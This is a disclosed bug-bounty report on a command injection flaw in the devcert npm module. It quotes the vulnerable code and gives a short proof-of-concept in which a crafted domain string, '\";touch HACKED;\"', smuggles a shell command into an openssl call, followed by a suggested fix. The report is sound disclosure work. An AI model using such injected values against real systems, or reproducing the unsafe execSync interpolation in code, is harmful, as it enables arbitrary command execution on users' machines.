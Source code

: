 # [devcert] Command Injection via insecure command formatting

## Report Details
- **Report ID**: 863544
- **URL**: https://hackerone.com/reports/863544
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-04-30T21:41:23.951Z
- **Disclosed**: 2020-06-15T16:02:48.968Z

## Reporter
- **Username**: d3lla
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a `Command Injection` issue in the `devcert` module.
It allows to execute arbitrary commands on the victim's PC.

# Module

**module name:** `devcert`
**version:** `1.1.0`
**npm page:** `https://www.npmjs.com/package/devcert`

## Module Description

devcert - Development SSL made easy

## Module Stats

[276,467] weekly downloads

# Vulnerability

## Vulnerability Description

The issue occurs because a user input parameter is used inside a command that is executed without any check. 

I tested the `certificateFor` function.

Here's the code which causes the issue:

```javascript
// https://github.com/davewasmer/devcert/blob/2b1b8d40eda251616bf74fd69f00ae8222ca1171/src/index.ts#L95

export async function certificateFor<O extends Options>(domain: string, options: O = {} as O): Promise<IReturnData<O>> { // <-- starting point
  debug(`Certificate requested for ${ domain }. Skipping certutil install: ${ Boolean(options.skipCertutilInstall) }. Skipping hosts file: ${ Boolean(options.skipHostsFile) }`);

  if (options.ui) {
    Object.assign(UI, options.ui);
  }

  if (!isMac && !isLinux && !isWindows) {
    throw new Error(`Platform not supported: "${ process.platform }"`);
  }

  if (!commandExists('openssl')) {
    throw new Error('OpenSSL not found: OpenSSL is required to generate SSL certificates - make sure it is installed and available in your PATH');
  }

  let domainKeyPath = pathForDomain(domain, `private-key.key`);
  let domainCertPath = pathForDomain(domain, `certificate.crt`);

  if (!exists(rootCAKeyPath)) {
    debug('Root CA is not installed yet, so it must be our first run. Installing root CA ...');
    await installCertificateAuthority(options);
  } else if (options.getCaBuffer || options.getCaPath) {
    debug('Root CA is not readable, but it probably is because an earlier version of devcert locked it. Trying to fix...');
    await ensureCACertReadable(options);
  }

  if (!exists(pathForDomain(domain, `certificate.crt`))) { 
    debug(`Can't find certificate file for ${ domain }, so it must be the first request for ${ domain }. Generating and caching ...`);
    await generateDomainCertificate(domain); // <-- domain is our payload
  }
  ....


...
// https://github.com/davewasmer/devcert/blob/master/src/constants.ts#L19
export const pathForDomain: (domain: string, ...pathSegments: string[]) => string = path.join.bind(path, domainsDir)
...

// https://github.com/davewasmer/devcert/blob/master/src/certificates.ts#L44
...
export default async function generateDomainCertificate(domain: string): Promise<void> {
  mkdirp(pathForDomain(domain));

  debug(`Generating private key for ${ domain }`);
  let domainKeyPath = pathForDomain(domain, 'private-key.key');  // <-- the variable is in the form 
  generateKey(domainKeyPath);

  debug(`Generating certificate signing request for ${ domain }`);
  let csrFile = pathForDomain(domain, `certificate-signing-request.csr`);
  withDomainSigningRequestConfig(domain, (configpath) => {
    openssl(`req -new -config "${ configpath }" -key "${ domainKeyPath }" -out "${ csrFile }"`);
  });

  debug(`Generating certificate for ${ domain } from signing request and signing with root CA`);
  let domainCertPath = pathForDomain(domain, `certificate.crt`);

  await withCertificateAuthorityCredentials(({ caKeyPath, caCertPath }) => {
    withDomainCertificateConfig(domain, (domainCertConfigPath) => {
      openssl(`ca -config "${ domainCertConfigPath }" -in "${ csrFile }" -out "${ domainCertPath }" -keyfile "${ caKeyPath }" -cert "${ caCertPath }" -days 825 -batch`)
    });
  });
}

// Generate a cryptographic key, used to sign certificates or certificate signing requests.
export function generateKey(filename: string): void {
  debug(`generateKey: ${ filename }`);  // <-- injection
  openssl(`genrsa -out "${ filename }" 2048`);
  chmod(filename, 400);
}
```

The input parameter `domain` is used to build the `domainKeyPath` variable.
If we pass `\";touch HACKED;\"` as input, the variable  `domainKeyPath` will be something like this: `/home/ubuntu/.config/devcert/domains/";touch HACKED;"/private-key.key` (the first part depends on your OS).
As we can see the variable contains a valid shell command. Then, this variable is passed to the function `generateKey`, that finally calls `openssl` function:
```javascript
// https://github.com/davewasmer/devcert/blob/master/src/utils.ts#L12
import { execSync, ExecSyncOptions } from 'child_process';
import tmp from 'tmp';
import createDebug from 'debug';
import path from 'path';
import sudoPrompt from 'sudo-prompt';

import { configPath } from './constants';

const debug = createDebug('devcert:util');

export function openssl(cmd: string) {
  return run(`openssl ${ cmd }`, {  // <-- the command executed is: openssl genrsa -out "/home/ubuntu/.config/devcert/domains/";touch HACKED;"/private-key.key" 2048
    stdio: 'pipe',
    env: Object.assign({
      RANDFILE: path.join(configPath('.rnd'))
    }, process.env)
  });
}

export function run(cmd: string, options: ExecSyncOptions = {}) {
  debug(`exec: \`${ cmd }\``);
  return execSync(cmd, options);  // <-- call child_process.execSync 
}
...

```

## Steps To Reproduce:
- create a directory for testing
    - `mkdir poc`
    - `cd poc/`

- install `devcert` module:
    -  `npm i devcert`
- create the following PoC JavaScript file (`poc.js`):

```javascript
const devcert = require('devcert');

async function poc() {
    let ssl = await devcert.certificateFor('\";touch HACKED;\"');
}
poc()
```
- make sure that the `HACKED` file does not exist:
    - `ls`
- execute the `poc.js` file:
    - `node poc.js`
- the `HACKED` file is created:
    - `ls`
    
{F810294}


## Patch
Do not concatenate/format commands using insecure user's input. Always check and sanitize it. 
In my opinion, it's better to use [`child_process.execFile`](https://nodejs.org/api/child_process.html#child_process_child_process_execfile_file_args_options_callback) or [`child_process.spawn`](https://nodejs.org/api/child_process.html#child_process_child_process_spawn_command_args_options) functions instead of `child_process.execSync`.

## Supporting Material/References:

- OPERATING SYSTEM VERSION: Ubuntu 18.04.4 LTS
- NODEJS VERSION: v13.13.0
- NPM VERSION: 6.14.4

# Wrap up

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N] 


Thank you for your time.

best regards,

d3lla

## Impact

Command Injection on `devcert` module via insecure command formatting.

## Attachments
- poc_devcert.mov
